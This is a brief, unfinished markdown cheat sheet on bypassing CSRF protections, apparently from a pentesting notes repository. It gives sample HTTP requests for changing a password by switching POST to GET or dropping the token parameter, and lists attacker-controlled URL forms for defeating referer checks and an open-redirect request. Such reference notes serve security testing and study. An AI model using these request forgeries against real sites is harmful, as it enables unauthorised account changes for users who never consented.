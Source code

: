 # CSRF Bypass

Work in progress ...

## Token-Based

#### 1) Change HTTP method 

```
POST /setting/ HTTP/1.1
Host: www.example.com

password=azerty&token=x

------------------------

HTTP/1.1 403 Forbidden
```

```
GET /setting/?password=azerty&token=x
Host: www.example.com

------------------------

HTTP/1.1 200 OK
```

#### 2) Delete token parameter

```
GET /setting/?password=azerty
Host: www.example.com
```

#### 3) Send token from a other account

#### 4) Steal victim's token with

   1. XSS
   2. CORS Misconfiguration
   3. JSON Hijacking
   4. Information disclosure


## Referer-Based


#### 1) Delete the referer

#### 2) Regex bypass

```
https://vuln.co
https://attacker.com?https://vuln.com/
https://vuln.com.attacker.com/
https://attackervuln.com/
https://vuln.com@fuzzme.org//
```

#### 3) Open redirect 

```
GET /?redirect=https://example.com/setting/?password=azerty
Host: www.example.com
Referer: https://www.example.com/
```

#### 4) Change HTTP method
